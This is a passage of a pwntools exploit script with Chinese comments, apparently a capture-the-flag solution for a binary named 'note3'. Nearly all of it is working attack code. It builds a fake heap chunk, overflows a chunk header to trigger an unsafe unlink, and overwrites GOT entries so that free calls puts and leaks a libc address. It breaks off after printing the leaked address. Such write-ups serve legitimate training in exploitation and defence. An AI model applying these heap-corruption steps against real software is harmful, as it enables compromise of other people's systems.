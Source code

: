     def delete(idx):
        p.sendlineafter('option--->>', '4')
        p.sendlineafter('note:', str(idx))
    
    #gdb.attach(p)
    # 分配7+1个块
    new(0x40, 'b'*32)
    new(0x80, 'b'*32)	#为进行unlink，块要大于fastbin
    new(0x80, 'b'*32)
    new(0x80, 'b'*32)
    new(0x80, 'b'*32)
    new(0x80, 'b'*32)
    new(0x80, 'b'*32)
    new(0x80, 'b'*32)	#第0块的size变量值会被该块的地址覆盖，进而第0块可以写入足够多的数据
    
    target = 0x6020C8	#指向ptr
    fd = target - 0x18
    bk = target - 0x10
    # 构造fake_chunk
    payload = p64(0) + p64(0x31) + p64(fd) + p64(bk) + b'a'*0x10 + p64(0x30) + b'b'*0x8
    # 溢出到下一个块，覆盖chunk header
    payload += p64(0x40) + p64(0x90)
    edit(0,payload)		# 向块0写入数据溢出
    delete(1)			# 触发unlink=>ptr[0]=&ptr-0x18
    
    elf = ELF('./note3')
    # 从&ptr-0x18开始写入数据 =>
    # 0x6020C8(ptr+0x00): elf.got['free']		chunk0_ptr
    # 0x6020D0(ptr+0x08): elf.got['puts']		chunk1_ptr
    # 0x6020D8(ptr+0x10): 0x6020C8				chunk2_ptr
    payload = p64(0)*3 + p64(elf.got['free']) + p64(elf.got['puts']) + p64(0x6020c8)
    edit(0,payload)
    
    # 将free@got改为puts@plt:
    # 向chunk0_ptr(free@got)写入puts@plt
    # 注意这里发送的地址是7位，因为程序会在用户输入后面加上\x00，若发送8位会将下一个got地址低字节变为0。这里puts@plt高字节也为\x00，所以发送7位无影响。
    edit(0, p64(elf.plt['puts'])[:-1])
    # 原会调用free(chunk1_put)，实际调用puts(puts@got)泄露地址
    delete(1)
    p.recvuntil('\n')
    # 读取泄露的地址值
    puts_addr = u64(p.recvuntil('\n')[:-1].ljust(8,b'\x00'))
    print(hex(puts_addr))